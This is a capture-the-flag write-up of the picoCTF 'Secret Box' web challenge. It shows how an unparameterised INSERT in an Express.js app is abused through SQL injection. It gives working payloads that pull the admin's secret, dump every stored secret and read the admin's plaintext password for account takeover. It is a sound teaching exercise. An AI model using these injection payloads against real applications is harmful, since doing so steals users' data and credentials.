


## Introduction

This is another medium picoCTF web challenge titled [Secret Box](https://learn.cylabacademy.org/library/747?page=1&category=1&difficulty=2).

It has the following description of :

**This secret box is designed to conceal your secrets.
It's perfectly secure—only you can see what's inside.
Or can you? Try uncovering the admin's secret.**

And we are provided with a website and a code source.

## Recon

In the recon we are going to start with manual recon by checking the website and then the source code to finish properly the pieces of the puzzle.

### Manual Investigation

First we are provided with the current interface that tells us to either signup or login as shown in the following image.


When we try to login normally ofc we have no credentials so we try something like `admin:admin` and we get error of incorrect user or password as shown in the following images.


So we create an account with the following creds `koussay:123`. After that we log in and find the following page.


That secret was an arbitrary string that I added and it has some kind of hash in it.

Now from what my exp there is maybe an admin account that contains a secret which is the flag.

becuase if we already try to create an admin account it tells us that user already exists.

So The missing puzzles are.

- Which Feature has some kind of vulnerability
- What is that hash exactly
- How the input within login form is treated
- How the input in the secret field is treated
- How data is stored

We can have an answer to most of this in the code source investigation - Sounds like a tv series -

### Code Source Investigation

The code source is a expressJS application and a database file.

#### SQL FILE

We start with the database file to know which tables and users we have within this website.

```sql
CREATE EXTENSION IF NOT EXISTS pgcrypto;

CREATE TABLE users (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
	username text NOT NULL,
    password text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);

CREATE TABLE tokens (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id text NOT NULL REFERENCES users(id),
    created_at timestamptz NOT NULL DEFAULT now(),
	expired_at timestamptz NOT NULL DEFAULT now() + interval '1 days'
);

CREATE TABLE secrets (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    owner_id text NOT NULL REFERENCES users(id),
    content text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);


INSERT INTO users(id, username, password) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'admin', 'fake_password');
INSERT INTO secrets(owner_id, content) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'picoCTF{fake_flag}');
```

From the below code snippet of SQL we have 3 tables a `users` table to store users obviously, `tokens` table for creating some kind of tokens to specific users and they are not permenant but short lived since it contains the column `expired_at` so it may be a cookie token for login purposes and finally the `secrets` table that contains the secret we submit or create with our own user id.

After that we can see content being inserted in both users and secrets tables, the admin user with its ID and password in users table and the flag with the admin ID in the secrets table.

So our first assumption was correct the FLAG is within the admin account and we have to access it some way let's check more in the expressJS app for more information.

#### server.js

When we check all the other files they contain simple normal backend code nothing malicous. However when we check the server.js we find first some verification to our assumption which is the token table being responsible for cookies.

```js
const tokenQuery = await db.raw(
		`SELECT id FROM tokens WHERE user_id = ? AND expired_at > NOW()`,
		[user.id]
	);

	let token = tokenQuery.rows[0]?.id;
	if(!token){
		// no valid token: create one
		const createTokenQuery = await db.raw(
			`INSERT INTO tokens(user_id) VALUES (?) RETURNING id`,
			[user.id]
		);

		token = createTokenQuery.rows[0].id;
	}
```

And then we check the create secret endpoint we find our target.

```js
app.post('/secrets/create', authMiddleware, async (req, res) => {
	const userId = req.userId;
	if (!userId){
		// if user didn't login, redirect to index page
		res.clearCookie('auth_token');
		return res.redirect('/');
	}

	const content = req.body.content;
	const query = await db.raw(
		// BIG MALICIOUS CODE
		`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`

	);

	return res.redirect('/');
});
```

The ``INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`` is malicious and totally screams SQL injection since the user input which is the content is not treated as a string in sql but as part of sql code itself it is not passed as a parameter like the previous ones so we can leverage from this by injecting sql code in the content field within creating secrets in `/secrets/create`.

Let's make sure that this vuln exists by adding something that would generate a sql error for us like `fds')`.

We get this result after we inject that input

```text
error: INSERT INTO secrets(owner_id, content) VALUES ('6cf8e4f2-2d8d-4f87-80d7-8dd0be4e198e', 'fds')') - unterminated quoted string at or near ")"
    at parseErrorMessage (/challenge/node_modules/pg-protocol/dist/parser.js:305:11)
    at Parser.handlePacket (/challenge/node_modules/pg-protocol/dist/parser.js:143:27)
    at Parser.parse (/challenge/node_modules/pg-protocol/dist/parser.js:37:38)
    at Socket.<anonymous> (/challenge/node_modules/pg-protocol/dist/index.js:11:42)
    at Socket.emit (node:events:517:28)
    at addChunk (node:internal/streams/readable:368:12)
    at readableAddChunk (node:internal/streams/readable:341:9)
    at Readable.push (node:internal/streams/readable:278:10)
    at TCP.onStreamRead (node:internal/stream_base_commons:190:23)
```
We get two things here.

1. SQL error and we see that our user input is treated as sql
2. Our user_id(owner_id) we will need this in crafting the payload

## Exploitation and Payload Crafting

The vuln SQL clause is ``INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`` and we are in control of what is inside `${content}` and this is an INSERT clause so UNION won't do much work here. What we try to think about is that table we are inserting to which is secrets is its content reflected to us in anyway? The answer is yes we get to see our own secrets we insert in other words if we insert content with a specific user id the result of what we insert will be reflected to that id owner.

So we try to insert cruicial info into the secrets table alongside our ID so it'll reflect to us.

In sql we can write `SELECT` clause inside an `INSERT` clause like that.

```sql
INSERT INTO secrets(owner_id, content) VALUES ('${userId}', (SELECT content FROM secrets where owner_id='ID'));
```

See what we will be doing? we will get the flag from the admin account since we already have the admin's ID from the sql file we are provided with.

Another thing is that we can insert two consequetive rows in SQL as follows.

```sql
INSERT INTO secrets(owner_id, content) VALUES ('${userId}', ''),('ID',(SELECT content FROM secrets where owner_id='ID'));
```

So after inserting the payload it should be something like this.

```sql
INSERT INTO secrets(owner_id, content) VALUES ('${userId}', ''),('id', (SELECT content FROM secrets where owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb')) -- ');
```

And the payload is `'),('<insertUID>', SELECT content FROM secrets where owner_id='<OWID>') --`

Or you can just select content from secrets directly without specifying the owner_id to see all secrets from the table.

`'),('<insertUID>', (SELECT content FROM secrets) ) --`

After that we can see in our home page where our input is reflected the flag exists there as shown in the following image.



There is another way which is showing admin password using sql injection but I would not do this usually because most of the times passwords are hashed but in this case after I tested it is not so when we insert the payload `'),(<UID>, (SELECT password from users where username='admin')) -- ` the password is  reflected to us as shown in the following image.



We can then access the admin account with the credentials we got and thus get the flag stored there.

## Conclision

As we can see that was a great lab about using SQL injection in a smart way with INSERT clause to show some confidential data. Looking forward for future challenges.
